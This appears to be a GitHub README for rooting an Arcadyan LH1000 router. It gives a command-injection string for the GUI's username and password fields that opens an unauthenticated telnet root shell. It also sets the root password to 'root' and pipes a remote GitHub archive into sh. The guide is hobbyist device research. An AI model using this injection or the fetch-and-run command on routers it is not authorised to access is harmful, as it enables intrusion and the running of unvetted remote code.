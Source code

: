 # Hacking the Arcadyan LH1000

To acquire a Telnet connection on port 23, reset the router and take out any sim cards. Plug in a LAN cable to access the GUI.

Then from a router that is conected to the internet, plug in a LAN cable from it to the WAN on the LH1000. That should get it on the internet. (Note: if the upstream router's LAN domain is the same as that of the LH1000, then change the LAN domain on the LH1000. i.e. if the upstream domain is 192.168.0.0, then change the LH1000 domain to 192.168.1.0)

Go back to the basic screen in the Broadband tab and change user name and password to:

    test.com;CMD=$'\x20-l\x20/bin/sh';telnetd$CMD;exit;

and save. (Note this will only save in the basic screen.)

Then telnet via port 23 and you should have a root shell straight away.

The following items may not survive a reboot, especially in later versions of the firmware, as /etc is just a symbolic link to /tmp/etc, which gets flushed every reboot.

There is no dropbear service under /etc/init.d, hence it does not start up and therefore there's no ssh. You can usually start dropbear just by running

    /usr/sbin/dropbear

In later firmware versions the dropbear_rsa_host_key & dropbear_dss_host_key are missing from /etc/dropbear, which prevents dropbear from starting.

Create the requisite keys by running

    dropbearkey -t rsa -f /etc/dropbear/dropbear_rsa_host_key
    dropbearkey -t dss -f /etc/dropbear/dropbear_dss_host_key

Then start dropbear ust by running

    /usr/sbin/dropbear

Remember to set the root password by running

    echo -e "root\nroot" | passwd

Note: Earlier firmware versions don't have the chpasswd function defined in Busybox.

To make these dropbear changes permanent, download and extract the archive directly to the device with the following command:

        curl -skL  https://raw.githubusercontent.com/UncleSam1966/LH1000/master/runonce.tar.gz | tar -xzvf - | sh

Then run it manually with `./runonce`.
